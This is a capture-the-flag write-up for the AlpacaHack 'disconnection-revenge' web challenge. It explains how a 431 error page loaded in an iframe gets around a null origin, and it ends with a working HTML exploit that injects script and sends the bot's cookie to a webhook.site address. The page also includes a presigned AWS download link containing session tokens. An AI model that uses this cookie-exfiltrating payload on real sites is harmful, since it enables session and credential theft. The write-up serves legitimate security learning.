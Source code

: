 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4667A7EFBCP%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T091634Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCIGRJxe4naYaIgLsvEyHdBvo3IWAp%2FzOd1w8rg6YK7SISAiANzc5jEznhz%2BX3L7IDJzn9lxs%2FbWPSz4oY67gs7W8sGCqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMxi83hxG0ZPYTYERDKtwDtajVeuMNbDot2svpz4rTXP4ls6u676tmk2UNJkM%2F%2BoHjZMoqLf4SdQw%2BtrniqKvs1TYWgkpFpU5Q0I%2FpBJcljoy9%2ByLMEnCzW4DjqoTIV1fN8OHnLCUeGn5A00m0X9jaXpQU1bgzX3OEUUCLFMdd1NQV6UkpzwCCEnlfAG0jgBOQNPU9Ammwoq89EgjmSWblSmZdbwbIylu%2F4tKdOHJvLf9DGp1k9AOllawkQSuURkTtaw0qUynmZBWvo2Oj0tWOmq49g2%2BTr4m%2BHcGohfiXhWH4OenkXjC2PSofYTCpU8E37wPor8JKk20PVjeMmGhP72%2F0sC1AI4wzdZKeOOegbYQ75Jaq6dRF7RIiYw9eMUNzG%2Bm%2FS6O3jzyXYv%2B1Utw7ON4cVnG2WUnTSBV4zIOAneuHA%2Bhk3n2F1e1AackDekBRzcLnWBOyuuhsgAWy7%2BNn2OO48hvVor2pGExRGY3wyIcZy63eityanu8XvFLwgiu08poB1Wky9nb0QmRM8uTPPYflaO%2F21cSFUeZHPAw%2Fb4yZVGDTneqzjkoEk1JhY2Hb5igtGce54YSV9%2Bvuj1hYmqru3XUwsmXbE%2FYA%2Bok4IfNJ4sw8iYqjdh2JwN6UqYNkMuYB8Uv65yMNC8kw9%2FHAwQY6pgEZHId5m9%2BBYn5rhUvYq%2FJeTeptI742zRifS8ZkvhQgKs93SKLtFypKLG8WKY1JjmlgxCvmBmXsEwJMLrPYJb6MQr6Ux3uK4cNGDZCFvEFLaZvRJjruaBcSEhbcrceVWgfVCIcc0V3Hg%2FiveOd70C5PvfjvdGMJgNlS7Ln%2BNn0SqUokKIbZCwE61gYpPi6Of7lHNTU4dIY1aGrJZlOPlLTH0IxYC%2F2b\&X-Amz-Signature=a5b4cfecd88de15b3bf3629eeca387b25ddc013701f9d138c0e0e847a6e1136a\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
